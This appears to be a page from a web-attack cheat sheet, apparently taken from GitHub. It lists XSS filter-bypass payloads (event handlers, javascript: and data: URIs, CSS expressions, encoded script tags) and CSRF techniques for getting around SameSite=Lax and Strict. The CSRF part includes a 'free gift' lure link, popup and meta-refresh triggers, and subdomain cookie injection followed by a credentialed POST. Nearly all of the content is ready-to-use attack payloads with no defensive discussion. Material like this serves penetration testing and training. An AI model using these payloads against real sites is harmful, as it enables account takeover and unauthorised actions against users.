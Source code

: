 **Advanced XSS Filter Bypasses:**
```javascript
// Event handler bypasses
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>

// JavaScript protocol bypasses
<a href="javascript:alert(1)">Click</a>
<iframe src="javascript:alert(1)"></iframe>

// Data URI bypasses
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<object data="data:text/html,<script>alert(1)</script>"></object>

// CSS-based XSS
<style>@import'data:,*{xss:expression(alert(1))}'</style>
<link rel=stylesheet href=data:,*{xss:expression(alert(1))}>

// Unicode and encoding bypasses
\u003cscript\u003ealert(1)\u003c/script\u003e
%3Cscript%3Ealert(1)%3C/script%3E
&lt;script&gt;alert(1)&lt;/script&gt;
```

### 🔗 Advanced CSRF and SSRF

#### **CSRF with SameSite Bypass**

**SameSite=Lax Bypass:**
```html
<!-- Method 1: Top-level navigation -->
<a href="https://vulnerable-site.com/csrf-endpoint?action=delete&id=123">Click here for free gift!</a>

<!-- Method 2: Popup window -->
<script>
window.open('https://vulnerable-site.com/csrf-endpoint?action=delete&id=123');
</script>

<!-- Method 3: Meta refresh -->
<meta http-equiv="refresh" content="0; url=https://vulnerable-site.com/csrf-endpoint?action=delete&id=123">
```

**SameSite=Strict Bypass:**
```javascript
// Only possible with XSS or subdomain control
// Subdomain cookie injection
document.cookie = "session=attacker_session; domain=.vulnerable-site.com; path=/";

// Then perform CSRF from subdomain
fetch('https://vulnerable-site.com/csrf-endpoint', {
    method: 'POST',
    credentials: 'include',
    body: 'action=delete&id=123'
});
```
